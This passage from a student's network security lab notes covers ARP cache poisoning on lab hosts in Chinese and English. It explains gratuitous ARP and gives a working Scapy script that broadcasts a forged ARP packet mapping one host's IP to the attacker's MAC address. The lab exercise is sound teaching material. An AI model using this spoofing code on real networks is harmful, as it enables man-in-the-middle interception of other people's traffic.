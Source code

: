 #### Section2 B’s IP is not in A’s cache.
清空arp表项，在此情况下再次发送reply报文无法成功，攻击失败
```
# 在A中
arp -d 10.9.0.6 // 删除
```

![[大三下/网络与信息安全/实验二/attachments/11.png]]

![[大三下/网络与信息安全/实验二/attachments/12.png]]

![[大三下/网络与信息安全/实验二/attachments/13.png]]



## Task 1.C (using ARP gratuitous message)
On host M, construct an ARP gratuitous packet, and use it to map B’s IP address to M’s MAC address. Please launch the attack under the same two scenarios as those described in Task 1.B.

ARP gratuitous packet is a special ARP request packet. It is used when a host machine needs to update outdated information on all the other machine’s ARP cache. The gratuitous ARP packet has the following characteristics:

- The source and destination IP addresses are the same, and they are the IP address of the host
issuing the gratuitous ARP.

- The destination MAC addresses in both ARP header and Ethernet header are the broadcast MAC
address (ff:ff:ff:ff:ff:ff).

- No reply is expected.

其实就需要修改一下刚才的request报文，要注意按照实验手册上的规则修改程序的ip数据报头的src,dst；MAC头的src,dst地址。即改IP为B的IP，改两个dst为广播，MAC还是M的MAC，具体程序如下：
```python
#!/usr/bin/env python3
from scapy.all import *

# On host M, construct an ARP reply packet to map B’s IP address to M’s MAC address. 
# victim:10.9.0.5
# goal: map 10.9.0.6 to 02:42:0a:09:00:69

print("SEDING ARP PACKET.......")
ether = Ether()
ether.dst ="ff:ff:ff:ff:ff:ff"  
ether.src ="02:42:0a:09:00:69" 

arp = ARP()
arp.op = 1 # 1 for ARP request; 2 for ARP reply
# src
arp.hwsrc="02:42:0a:09:00:69" 
arp.psrc="10.9.0.6"
# dst
arp.hwdst="ff:ff:ff:ff:ff:ff" 
arp.pdst="10.9.0.6"

pkt = ether/arp
sendp(pkt)
```
